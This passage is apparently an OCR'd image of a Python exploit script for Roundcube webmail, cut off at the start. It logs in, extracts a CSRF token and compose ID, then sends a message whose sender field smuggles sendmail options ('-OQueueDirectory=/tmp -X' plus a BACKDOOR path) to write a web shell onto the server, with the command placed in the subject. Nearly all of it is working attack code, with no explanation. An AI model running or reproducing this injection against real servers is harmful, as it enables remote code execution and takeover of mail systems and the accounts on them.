 ```python
        "_pass": sess.auth[1],
}

response = sess.post(
        BASE_URL + "?_task=login",
        headers={"Content-Type": "application/x-www-form-urlencoded"},
        data=payload,
        allow_redirects=False
)
if response.status_code == 302:
    request_token = response.headers["Location"].split("token=")[1]
else:
    logging.info("Could not get token from login response, using former token")

response = sess.get(BASE_URL + "?_task=mail&_mbox=INBOX&_action=compose", allow_redirects=False)
if response.status_code == 302:
    compose_id = response.headers['Location'].split("id=")[1]
else:
    logging.error("Could not get the compose ID")
    sys.exit()

payload = {
        "_token": request_token,
        "_task": "mail",
        "_action": "send",
        "_id": compose_id,
        "_attachments": "",
        "_from": "example@example.com -OQueueDirectory=/tmp -X" + BACKDOOR,
        "_to": "example@pWnexAmplE.sh",
        "_cc": "",
        "_bcc": "",
        "_replyto": "",
        "_followupto": "",
        "_subject": CMD,
        "editorSelector": "plain",
        "_priority": 0,
        "_store_target": "",
        "_draft_saveid": "",
        "_draft": "",
        "_is_html": 0,
        "_framed": 1,
        "_message": "pwn"
}

response = sess.post(
        BASE_URL + "?_task=mail&_lang=en_US&_framed=1",
        headers={"Content-Type": "application/x-www-form-urlencoded"},
        data=payload,
)
print(f"Message creation returned HTTP {response.status_code}")
```
